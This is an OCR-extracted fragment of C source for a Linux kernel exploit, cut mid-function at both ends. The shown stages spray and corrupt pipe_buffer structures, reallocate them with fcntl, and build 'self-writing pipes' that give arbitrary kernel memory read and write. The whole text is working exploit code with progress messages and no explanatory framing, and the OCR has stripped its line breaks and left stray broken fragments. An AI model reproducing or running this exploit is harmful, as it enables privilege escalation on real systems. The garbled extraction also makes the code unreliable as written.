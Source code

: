 ```
 nr for %d pipe is %d\n", i, nr);        if (nr < PIPE_SPRAY_NR && i != nr) {            snd_orig_pid = nr;            snd_vicitm_pid = i;            printf("\033[32m\033[1m[+] Found second-level victim: \033[0m%d "                   "\033[32m\033[1m, orig: \033[0m%d\n",                    snd_vicitm_pid, snd_orig_pid);            break;        }    }    if (snd_vicitm_pid == -1) {        err_exit("FAILED to corrupt second-level pipe_buffer!");    }}/** * VI - SECONDARY exploit stage: build pipe for arbitrary read & write*/void building_self_writing_pipe(void){    size_t buf[0x1000];    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ/sizeof(struct pipe_buffer));    struct pipe_buffer evil_pipe_buf;    struct page *page_ptr;    puts("\n\033[34m\033[1m"         "Stage IV - Building a self-writing pipe system"         "\033[0m\n");    memset(buf, 0, sizeof(buf));    /* let the page's ptr at pipe_buffer */    write(pipe_fd[snd_vicitm_pid][1], buf, TRD_PIPE_BUF_SZ - 24 -3*sizeof(int));    /* free orignal pipe's page */    puts("
 free second-level original pipe...");    close(pipe_fd[snd_orig_pid][0]);    close(pipe_fd[snd_orig_pid][1]);    /* try to rehit victim page by reallocating pipe_buffer */    puts("
 fcntl() to set the pipe_buffer on second-level victim page...");    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid             || i == snd_orig_pid || i == snd_vicitm_pid) {            continue;        }        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {            printf("[x] failed to resize %d pipe!\n", i);            err_exit("FAILED to re-alloc pipe_buffer!");        }    }    /* let a pipe->bufs pointing to itself */    puts("
 hijacking the 2nd pipe_buffer on page to itself...");    evil_pipe_buf.page = info_pipe_buf.page;    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;    evil_pipe_buf.ops = info_pipe_buf.ops;    evil_pipe_buf.flags = info_pipe_buf.flags;    evil_pipe_buf.private = info_pipe_buf.private;    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));    /* check for third-level victim pipe */    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid             || i == snd_orig_pid || i == snd_vicitm_pid) {            continue;        }        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));        if (page_ptr == evil_pipe_buf.page) {            self_2nd_pipe_pid = i;            printf("\033[32m\033[1m[+] Found self-writing pipe: \033[0m%d\n",                     self_2nd_pipe_pid);            break;        }    }    if (self_2nd_pipe_pid == -1) {        err_exit("FAILED to build a self-writing pipe!");    }    /* overwrite the 3rd pipe_buffer to this page too */    puts("
 hijacking the 3rd pipe_buffer on page to itself...");    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));    /* check for third-level victim pipe */    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (i == victim_qidx) {            continue;        }        if (i == orig_pid || i == victim_pid             || i == snd_orig_pid || i == snd_vicitm_pid            || i == self_2nd_pipe_pid) {            continue;        }        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));        if (page_ptr == evil_pipe_buf.page) {            self_3rd_pipe_pid = i;            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"                    "%d\n", self_3rd_pipe_pid);            break;        }    }    if (self_3rd_pipe_pid == -1) {        err_exit("FAILED to build a self-writing pipe!");    }    /* overwrite the 4th pipe_buffer to this page too */    puts("
```